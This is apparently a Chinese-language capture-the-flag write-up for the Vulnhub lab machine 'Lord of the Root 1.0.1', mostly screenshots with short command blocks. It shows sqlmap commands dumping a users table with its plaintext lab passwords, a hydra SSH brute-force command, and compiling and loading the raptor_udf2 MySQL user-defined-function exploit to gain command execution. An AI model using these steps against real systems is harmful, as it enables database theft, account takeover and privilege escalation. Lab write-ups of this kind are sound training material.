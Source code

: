 ```yaml
---
title: Vulnhub 129 LORD OF THE ROOT 1.0.1 简
date: 2015-09-23
---
```


靶机链接：<https://www.vulnhub.com/entry/lord-of-the-root-101,129/>

<!--more-->
## 环境配置

| 名称                    | IP             |
| ----------------------- | -------------- |
| Kali Linux              | 192.168.88.153 |
| LORD OF THE ROOT: 1.0.1 | 192.168.88.155 |

![](./1.webp)

![](./2.webp)

![](./3.webp)

![](./4.webp)

![](./5.webp)

![](./6.webp)

```html
<!--THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh>
```

![](./7.webp)

![](./8.webp)

![](./9.webp)

```bash
$ sqlmap -u "http://192.168.88.155:1337/978345210/index.php" --forms
$ sqlmap -u "http://192.168.88.155:1337/978345210/index.php" --forms --dbs
$ sqlmap -u "http://192.168.88.155:1337/978345210/index.php" --forms --tables -D Webapp
$ sqlmap -u "http://192.168.88.155:1337/978345210/index.php" --forms --dump -T Users -D Webapp
```
![](./10.webp)

![](./11.webp)

![](./12.webp)

| id   | username | password         |
| ---- | -------- | ---------------- |
| 1    | frodo    | iwilltakethering |
| 2    | smeagol  | MyPreciousR00t   |
| 3    | aragorn  | AndMySword       |
| 4    | legolas  | AndMyBow         |
| 5    | gimli    | AndMyAxe         |

![](./13.webp)

```
$ hydra -L user -P pass 192.168.88.155 ssh
```
![](./14.webp)

![](./15.webp)

![](./16.webp)

[MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)](https://www.exploit-db.com/exploits/1518)

![](./17.webp)

```
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

```

![](./18.webp)

```bash
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
```

![](./19.webp)

![](./20.webp)

![](./21.webp)
